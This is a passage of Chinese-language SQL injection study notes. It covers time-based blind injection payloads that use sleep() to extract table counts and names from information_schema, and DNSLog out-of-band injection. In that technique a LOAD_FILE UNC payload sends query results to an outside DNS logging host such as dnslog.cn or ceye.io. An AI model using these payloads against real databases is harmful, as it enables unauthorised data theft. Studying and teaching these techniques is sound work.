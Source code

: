 - 爆破出当前数据库的表个数：`and if((select count(table_name) as a from information_schema.tables where table_schema=database() having a={0}),sleep(1),0)`

- 爆破每一个表的表名长度：`if((select length(table_name) from information_schema.tables where table_schema=database() limit {0},1)={1},sleep(1),0)`
- 爆破各个表名：`if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1},1))>{2}),sleep(1),0)`
- 爆破表的列名。

- 爆破数据

### DNSLog注入
- DNSLog

    - 当要访问一个网站，一般我们只知道域名，但是不知道IP。那么我们可以先访问DNS服务，通过域名得到一个IP地址，再用IP去访问网站所在的服务器，从而可以显示网页。
    - 而在访问DNS服务的时候，会有一个日志记录下什么时候访问的、请求的域名以及域名对应的IP信息等，这个日志就是**DNSLog**。我把我们想要的信息加到域名请求里面。
    
- DNSlog平台：

    - 国外 http://www.dnslog.cn/   [http://ceye.io](http://ceye.io/)
    
    - 国内：

- DNSLog注入流程

    - 把select load_file()注入到数据库，访问文件

    - unc构建dns服务器地址，假装访问文件，产生dnslog

        ```sql
        SELECT LOAD_FILE(CONCAT('\\\\',(要查询的语句),'.xx.xx.xx\\abc'));
        ```

    - 执行的语句：

        - ![image-20220810213934091](sql注入.assets/image-20220810213934091.png)

    - DNSLog平台收到的DNS查询
